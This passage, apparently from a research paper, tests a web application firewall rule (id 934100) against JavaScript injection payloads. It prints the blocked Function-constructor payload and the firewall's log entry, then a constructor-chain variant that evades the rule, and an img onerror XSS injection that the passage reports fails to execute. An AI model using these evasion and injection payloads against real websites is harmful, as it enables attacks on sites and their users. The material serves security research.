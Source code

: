 When evaluating the firewall against this payload, the payload was blocked according to rule:

\begin{lstlisting}[style=ruleStyle, language=XML, caption=function constructor blocked, label={lst:funconblocked}]
<payload>new Function(`var s = 'secret'; promp` + `t(s, s)`)()</payload>

<message>"Node.js Injection Attack 1/2"</message>
<file>"/rules/REQUEST-934-APPLICATION-ATTACK-GENERIC.conf"</file>
<fileDetails>[line "52"] [id "934100"]<fileDetails>
<MatchedData>"new Function("</MatchedData>
\end{lstlisting}

To evade rule with id \verb|934100|, calling the \verb|Function()| constructor was substituted by \verb|[]['constructor']['constructor']()| according to the technique mentioned under Section~\ref{sec:functionconstructor}:

\begin{lstlisting}[style=basicStyle, language=Python]
[]['constructor']['constructor'](`var s = 'secret'; promp` + `t(s, s)`)()
\end{lstlisting}

While this payload successfully bypasses the evaluted firewall configuration, when evaluating this payload using the test code snipped mentioned under Section~\ref{sec:evaluation}, it turned out to be invalid. After parsing and injecting the payload into the \acrshort{html} page according to the following statements:

\begin{lstlisting}[style=basicStyle, language=Python, escapeinside=\^\^]
const injection = 
  JSON.parse("{\"body\":\"[]['constructor']['constructor'](`var s = 'secret'; promp` + `t(s, s)`)()\"}")

document.getElementById('div1').insertAdjacentHTML('afterbegin', `<img src=0 onerror=${injection.body}>`)
\end{lstlisting}

the resulting \acrshort{html} code did not execute the given statements inside the payload as expected. It resulted in the following \acrshort{html} code:

\begin{lstlisting}[style=basicStyle, language=Python, escapeinside=\^\^]
<div id="div1">
	<img src="0" onerror="[]['constructor']['constructor'](`var" s="secret" ;="" promp`="" +="" `t(s,="" s)`)()="">
</div>
\end{lstlisting}

